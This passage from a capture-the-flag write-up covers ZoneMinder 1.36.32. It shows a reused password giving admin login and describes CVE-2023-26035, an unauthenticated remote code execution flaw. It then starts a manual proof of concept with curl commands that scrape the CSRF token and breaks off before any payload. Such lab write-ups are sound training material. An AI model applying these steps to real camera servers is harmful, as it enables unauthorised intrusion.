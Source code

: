 [ZoneMinder](https://zoneminder.com/) is a free and [open
source](https://github.com/ZoneMinder/zoneminder):

> Closed-circuit television software application developed for Linux which
> supports IP, USB and Analog cameras.

The username matthew / starcraft122490 doesn’t work to log in, but admin /
starcraft122490 does!

![image-20240418161857080](../img/image-20240418161857080.png)

This is version 1.36.32 according to the banner at the top right under
“STOPPED”.

### CVE-2023-26035

#### Background

Searching for ZoneMinder vulnerabilities (again with a filter for things
before 9 December 2023 when Surveillance released) reveals
[CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035):

> Versions prior to 1.36.33 and 1.37.33 are vulnerable to Unauthenticated
> Remote Code Execution via Missing Authorization. There are no permissions
> check on the snapshot action, which expects an id to fetch an existing
> monitor but can be passed an object to create a new one instead. TriggerOn
> ends up calling shell_exec using the supplied Id. This issue is fixed in
> This issue is fixed in versions 1.36.33 and 1.37.33.

Metasploit [added an
exploit](https://www.rapid7.com/blog/post/2023/11/17/metasploit-weekly-wrap-
up-36/) in November 2023.

#### Manual POC

To exploit this, I’ll need to get a CSRF token from the index page:

    
    
    oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic
                    <form class="center-block" name="loginForm" id="loginForm" method="post" action="?view=login"><input type='hidden' name='__csrf_magic' value="key:827e7c381ce800986c8eaf05be675f1aaf2b048a,1713472410" />
    oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12
    key:f9baaa62f1487f7836cf6070f6d156fd5e75a45a,1713472444
    oxdf@hacky$ CSRF=$(curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12)
    oxdf@hacky$ echo $CSRF
    key:df9180712415a1f92e5f81926168eb7d4c884cbd,1713472462
    